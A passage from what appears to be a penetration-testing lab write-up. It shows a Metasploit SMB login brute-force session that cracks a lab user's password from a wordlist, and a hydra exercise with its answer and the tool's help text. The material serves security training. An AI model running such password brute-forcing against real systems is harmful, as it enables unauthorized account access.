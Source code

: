 ```bash
msf5 auxiliary(scanner/smb/smb_login) > set PASS_FILE /usr/share/wordlists/metasploit/unix_passwords.txt
PASS_FILE => /usr/share/wordlists/metasploit/unix_passwords.txt
msf5 auxiliary(scanner/smb/smb_login) > set SMBUser jane
SMBUser => jane
msf5 auxiliary(scanner/smb/smb_login) > exploit

[*] 192.10.76.3:445       - 192.10.76.3:445 - Starting SMB login bruteforce
[-] 192.10.76.3:445       - 192.10.76.3:445 - Failed: '.\jane:admin',
[!] 192.10.76.3:445       - No active DB -- Credential data will not be saved!
[-] 192.10.76.3:445       - 192.10.76.3:445 - Failed: '.\jane:123456',
[-] 192.10.76.3:445       - 192.10.76.3:445 - Failed: '.\jane:12345',
[-] 192.10.76.3:445       - 192.10.76.3:445 - Failed: '.\jane:123456789',
[-] 192.10.76.3:445       - 192.10.76.3:445 - Failed: '.\jane:password',
[-] 192.10.76.3:445       - 192.10.76.3:445 - Failed: '.\jane:iloveyou',
[-] 192.10.76.3:445       - 192.10.76.3:445 - Failed: '.\jane:princess',
[-] 192.10.76.3:445       - 192.10.76.3:445 - Failed: '.\jane:1234567',
[-] 192.10.76.3:445       - 192.10.76.3:445 - Failed: '.\jane:12345678',
[+] 192.10.76.3:445       - 192.10.76.3:445 - Success: '.\jane:abc123'
[*] 192.10.76.3:445       - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

### hydra

> 2. What is the password of user “admin” required to access share “admin”? Use hydra with password wordlist: /usr/share/wordlists/rockyou.txt

Answer: `login: admin   password: password1`

```bash
root@attackdefense:~# gzip -d /usr/share/wordlists/rockyou.txt.gz 

root@attackdefense:~# hydra
Hydra v8.8 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Syntax: hydra [[[-l LOGIN|-L FILE] [-p PASS|-P FILE]] | [-C FILE]] [-e nsr] [-o FILE] [-t TASKS] [-M FILE [-T TASKS]] [-w TIME] [-W TIME] [-f] [-s PORT] [-x MIN:MAX:CHARSET] [-c TIME] [-ISOuvVd46] [service://server[:PORT][/OPT]]

Options:
  -l LOGIN or -L FILE  login with LOGIN name, or load several logins from FILE
  -p PASS  or -P FILE  try password PASS, or load several passwords from FILE
  -C FILE   colon separated "login:pass" format, instead of -L/-P options
  -M FILE   list of servers to attack, one entry per line, ':' to specify port
  -t TASKS  run TASKS number of connects in parallel per target (default: 16)
  -U        service module usage details
  -h        more command line options (COMPLETE HELP)
  server    the target: DNS, IP or 192.168.0.0/24 (this OR the -M option)
  service   the service to crack (see below for supported protocols)
  OPT       some service modules support additional input (-U for module help)

Supported services: adam6500 asterisk cisco cisco-enable cvs firebird ftp ftps http[s]-{head|get|post} http[s]-{get|post}-form http-proxy http-proxy-urlenum icq imap[s] irc ldap2[s] ldap3[-{cram|digest}md5][s] mssql mysql nntp oracle-listener oracle-sid pcanywhere pcnfs pop3[s] postgres radmin2 rdp redis rexec rlogin rpcap rsh rtsp s7-300 sip smb smtp[s] smtp-enum snmp socks5 ssh sshkey svn teamspeak telnet[s] vmauthd vnc xmpp

Hydra is a tool to guess/crack valid login/password pairs. Licensed under AGPL
v3.0. The newest version is always available at https://github.com/vanhauser-thc/thc-hydra
Don't use in military or secret service organizations, or for illegal purposes.

Example:  hydra -l user -P passlist.txt ftp://192.168.0.1
```
